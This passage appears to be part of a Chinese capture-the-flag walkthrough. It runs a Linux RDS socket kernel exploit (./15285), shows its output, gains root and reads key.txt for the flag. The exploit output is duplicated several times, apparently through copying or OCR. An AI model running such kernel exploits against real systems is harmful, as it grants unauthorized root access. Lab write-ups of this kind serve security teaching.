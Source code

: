    ./15285 //运行
    
    ```
    
    ```php
    [*] Linux kernel >= 2.6.30 RDS socket exploit
    [*] by Dan Rosenberg
    [*] Resolving kernel addresses...
     [+] Resolved security_ops to 0xc0aa19ac
     [+] Resolved default_security_ops to 0xc0955c6c
     [+] Resolved cap_ptrace_traceme to 0xc055d9d7
     [+] Resolved commit_creds to 0xc044e5f1
     [+] Resolved prepare_kernel_cred to 0xc044e452
    [*] Overwriting security ops...
    [*] Linux kernel >= 2.6.30 RDS socket exploit
    [*] by Dan Rosenberg
    [*] Resolving kernel addresses...
     [+] Resolved security_ops to 0xc0aa19ac
     [+] Resolved default_security_ops to 0xc0955c6c
     [+] Resolved cap_ptrace_traceme to 0xc055d9d7
     [+] Resolved commit_creds to 0xc044e5f1
     [+] Resolved prepare_kernel_cred to 0xc044e452
    [*] Overwriting security ops...
    [*] Overwriting function pointer...
    [*] Linux kernel >= 2.6.30 RDS socket exploit
    [*] by Dan Rosenberg
    [*] Resolving kernel addresses...
     [+] Resolved security_ops to 0xc0aa19ac
     [+] Resolved default_security_ops to 0xc0955c6c
     [+] Resolved cap_ptrace_traceme to 0xc055d9d7
     [+] Resolved commit_creds to 0xc044e5f1
     [+] Resolved prepare_kernel_cred to 0xc044e452
    [*] Overwriting security ops...
    [*] Overwriting function pointer...
    [*] Triggering payload...
    [*] Restoring function pointer...
    ```
    
7. 一长串操作后，我们输入`whoami`尝试，提权成功！
    
    ```php
    // 靶机shell
    whoami
    root
    ```
    
8. 寻找之前说的`key.txt` ，`flag`可能就住在里面
    
    ```php
    // 靶机shell
    cd root // 发现root文件夹下存在key.txt
    cat key.txt // 读取
    ```
    
